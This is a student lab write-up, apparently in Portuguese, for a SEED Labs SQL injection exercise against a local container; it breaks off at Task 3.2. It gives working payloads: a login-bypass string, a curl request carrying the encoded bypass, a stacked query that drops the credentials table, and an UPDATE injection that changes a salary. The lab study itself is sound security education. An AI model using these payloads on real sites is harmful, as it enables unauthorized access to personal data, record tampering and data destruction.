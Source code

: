 # SQL Injection Attack

## Setup

```bash
sudo nano etc/hosts # colocar '10.9.0.5 www.seed-server.com'
$ dcbuild # docker-compose build
$ dcup # docker-compose up
$ docksh f3 # Abrir uma shell no MySQL container
```

## Tasks

### Task 1: Get Familiar with SQL Statements

```bash
$ mysql -u root -pdees
$ use sqllab_users;
```

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

![Task 1](../img/lab8task1.png)

###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Aceder ao site "www.seed-server.com".

A query é frágil neste segmento

```sql
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

A password é hashed mas o nome não. Basta colocar admin e comentar a segunda parte, obtendo assim acesso às credenciais de todos os utilizadores

```note
username: admin' #
```

![Task 2 a](../img/lab8task2a.png)

#### Task 2.2 - Login in adminstrator mode from command line

Usamos o mesmo comando mas através de um pedido GET. Um exemplo seria:

```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```

Com o mesmo input da secção anterior, cifrado (%27 é plica, %23 é o hastag).

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Com o comando anterior obtivemos o código HTML de toda a página que continha os dados pessoais dos utilizadores

![Task 2 b](../img/lab8task2b.png)

#### Task 2.3 - Append a new SQL statement

Podemos adicionar novos comandos SQL usando ";". Para isso, modificamos no nosso input malicioso inicial para que fizesse um side-effect. Por exemplo, eliminar a tabela de credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

No entanto deu erro. Segundo [esta fonte](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL utilizada pelo PHP do servidor tem uma proteção que impede a execução de múltiplas queries.

![Task 2 c](../img/lab8task2c.png)


### Task 3: SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Após dar login com a alice, 11, e na parte de edit profile. Apesar de password ser hash, o phone number está desprotegido. Usando a mesma técnica:. Explicar plica.

```sql
933667378',Salary='9999999
```

Bingo:

![Task 3 a](../img/lab8task3a.png)

#### Task 3.2 - Modify other people’ salary

